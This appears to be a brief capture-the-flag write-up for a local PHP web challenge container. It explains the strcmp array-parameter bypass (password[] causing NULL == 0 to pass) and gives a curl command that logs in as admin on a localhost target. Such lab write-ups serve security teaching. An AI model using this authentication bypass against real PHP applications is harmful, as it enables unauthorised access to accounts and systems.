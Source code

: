 # CTF 2: Web PHP

This uses the container [HightechSec/web-ctf-container](https://github.com/HightechSec/web-ctf-container/tree/master

## Challenges 1
Use [PHP Strcmp](https://www.php.net/manual/en/function.strcmp.php) bypass.
This can be done by using the `?password[]=%22%22`.
Due to some inherent weaknesses in PHP's comparisons, NULL == 0 will return true.

```sh
curl -X POST "http://127.0.0.1/admin/index.php?username=admin&password[]=%22%22&submit=Login"
```

